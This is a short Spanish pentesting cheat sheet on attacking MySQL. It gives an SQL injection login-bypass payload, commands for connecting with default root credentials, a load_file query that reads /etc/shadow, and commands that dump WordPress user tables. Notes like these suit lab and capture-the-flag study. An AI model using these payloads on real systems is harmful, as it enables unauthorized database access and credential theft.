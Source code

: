 # MySQL

Propietario: Adrian Gisbert Cabello

Para hacer una inyección simple de MySQL en el usuario pondremos lo siguiente: `' OR 1=1;-- -`		y ponemos la contraseña que queramos.

Para entrar mediante el protocolo MySQL: `mysql -u USUARIO -p -h 192.168.X.X` ******→ usuario ***por defecto suele ser root***, no suelen cambiar credenciales por defecto. `mysql -u root -h 192.168.X.X`

Comandos para usar dentro de MySQL:

- `select load_file(¨/etc/shadow¨);`
- `show databases`
- `show tables`
- `;`

Cuando estamos dentro del MySQL estos son algunos de los comandos más importantes:

- Para ver las bases de datos: `show databases`
- Para seleccionar una base de datos: `use <Nombre de la base de datos>` = `use wordpress` → `show databases` → `select * from wp_users`

Credenciales por defecto:

MySQL							root::en blanco		|		root::root